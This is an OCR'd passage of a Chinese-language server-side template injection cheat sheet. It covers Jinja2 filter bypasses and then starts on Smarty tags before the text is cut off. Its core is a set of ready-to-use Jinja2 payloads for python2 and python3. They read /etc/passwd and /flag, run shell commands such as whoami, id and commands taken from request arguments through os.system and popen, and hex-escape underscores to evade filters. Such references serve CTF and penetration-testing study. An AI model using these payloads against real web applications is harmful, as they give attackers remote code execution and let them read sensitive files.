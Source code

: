 * 构造出`%`和`c`后，用格式化字符串代替`chr`

{%set udl=dict(a=pc,c=c).values()|join %}      # uld=%c
{%set i1=dict(a=i1,c=udl%(99)).values()|join %}
#### (7)+等被过滤，无法拼接字符串

* `~`  
在jinja中可以拼接字符串
* 格式化字符串  
同上
- ### payload
  
  python2
  ```
    {{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}  
    {{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
    {{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[91]["get\x5Fdata"](0, "app\x2Epy")}}
    {{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').system('whoami')")}}
    {{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[80]["load\x5Fmodule"]("os")["system"]("ls")}}
    {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
  ```
  python3
  ```
    {{().__class__.__bases__[0].__subclasses__()[177].__init__.__globals__.__builtins__['open']('/flag').read()}}
    {{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['eval']("__import__('os').popen('whoami').read()")}}
  ```
  不用找类  
  `{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}`
  
  以上思路都是找os，也可以找`__builtins__.eval`
  
  # Smarty
  ------
  
  以下内容出自[Smarty SSTI](https://www.jianshu.com/p/eb8d0137a7d3)
### 1、`{php}{/php}`

Smarty已经废弃{php}标签，强烈建议不要使用。在Smarty 3.1，{php}仅在SmartyBC中可用
### 2、`{literal}`

{literal}可以让一个模板区域的字符原样输出。这经常用于保护页面上的Javascript或css样式表，避免因为Smarty的定界符而错被解析。

那么对于php5的环境我们就可以使用
